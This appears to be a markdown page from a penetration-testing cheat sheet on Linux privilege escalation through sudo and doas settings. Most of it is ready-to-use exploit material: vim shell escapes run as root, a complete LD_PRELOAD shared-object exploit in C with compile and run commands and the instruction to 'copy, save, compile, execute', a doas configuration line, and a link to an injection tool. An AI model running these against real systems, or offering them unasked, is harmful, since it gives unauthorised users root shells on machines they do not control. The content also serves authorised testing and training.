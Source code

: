 ### NOPASSWD

Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.

```
$ sudo -l
User local_host may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user  `local_host`  can run  `vim`  as  `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling  `sh`.

```
sudo vim -c '!sh'
sudo -u root vim -c '!sh'
```
&nbsp;

### LD_PRELOAD AND NOPASSWD

If  `LD_PRELOAD`  is explicitly defined in the sudoers file use the following exploit code 
 copy -> save -> compile -> execute!!



```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```
 `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

Execute any binary with the LD_PRELOAD to spawn a shell :  `sudo LD_PRELOAD=/tmp/shell.so find`

&nbsp;

### DOAS

There are some alternatives to the  `sudo`  binary such as  `doas`  for OpenBSD, remember to check its configuration at  `/etc/doas.conf`

```
permit nopass local_host as root cmd vim
```
&nbsp;


### SUDO_INJECT

Using  [https://github.com/nongiach/sudo_inject](https://github.com/nongiach/sudo_inject)
